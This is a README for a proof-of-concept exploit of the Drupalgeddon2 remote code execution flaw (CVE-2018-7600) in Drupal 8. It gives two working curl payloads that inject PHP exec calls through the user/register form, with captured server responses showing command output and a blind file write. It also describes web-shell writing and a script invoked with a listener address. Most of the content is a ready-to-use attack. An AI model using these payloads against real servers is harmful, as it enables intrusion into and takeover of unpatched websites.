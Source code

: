 # CVE-2018-7600 | Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

### Inspired from https://github.com/dreadlocked/Drupalgeddon2
- - -

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `passthru` function
- [Pending] [Yet to be Coded] Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- Works with **direct commands** (aka File-Less Method) or writes a **PHP shell** to the web root (`./`) or sub-directories (`./sites/default/` & `./sites/default/files/`)
- Support **Linux** targets
- **Auto detects Drupal version** _(or takes a good guess!)_


### PoC #1 - #post_render / account/mail / exec
- It uses the `user/register` URL, `#post_render` parameter, targeting `account/mail`, using PHP's `exec` function.

```
  curl -k -i 'http://localhost/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

The server will give 200 response & display JSON.
It **IS** able to render the output in the response _(such as doing uname -a)_.

**Example**

```bash
[g0tmi1k@attacker]$ curl -k -i 'http://localhost/drupal-8.4.5/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
  --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
HTTP/1.1 200 OK
Date: Wed, 18 Apr 2018 15:56:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 280
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU\/Linux\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
[g0tmi1k@attacker]$
```

- - -

### PoC #2 - #lazy_builder / timezone/timezone / exec
- It uses the `user/register` URL, `#lazy_builder` parameter, targeting `timezone/timezone`, using PHP's `exec` function.

```
  curl -k -i 'http://localhost/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

The server will give 500 response & display "The website encountered an unexpected error. Please try again later".
It is **NOT** able to render the output in the response _(Blind!)_.

**Example**

```bash
[g0tmi1k@attacker]$ curl -k -i 'http://localhost/drupal-8.4.5/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
HTTP/1.0 500 500 Service unavailable (with message)
Date: Wed, 18 Apr 2018 15:58:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.24
Cache-Control: no-cache, private
Content-Length: 74
Connection: close
Content-Type: text/html

The website encountered an unexpected error. Please try again later.<br />
[g0tmi1k@attacker]$


root@ubuntu140045x64-drupal:~# stat /tmp/2
  File: '/tmp/2'
  Size: 0         	Blocks: 0          IO Block: 4096   regular empty file
Device: fd01h/64769d	Inode: 59488       Links: 1
Access: (0644/-rw-r--r--)  Uid: (   33/www-data)   Gid: (   33/www-data)
Access: 2018-04-18 15:58:05.061898957 +0000
Modify: 2018-04-18 15:58:05.061898957 +0000
Change: 2018-04-18 15:58:05.061898957 +0000
 Birth: -
root@ubuntu140045x64-drupal:~#
```

- - -

### Script Usage:
#### Tested on Drupal 8, Drupal 7 part of the exploit is yet to be coded
`python drupalgeddon2.py -t http://xxx.xxx.xxx.xxx -l xxx.xxx.xxx.xxx -p xxxx`

![]()

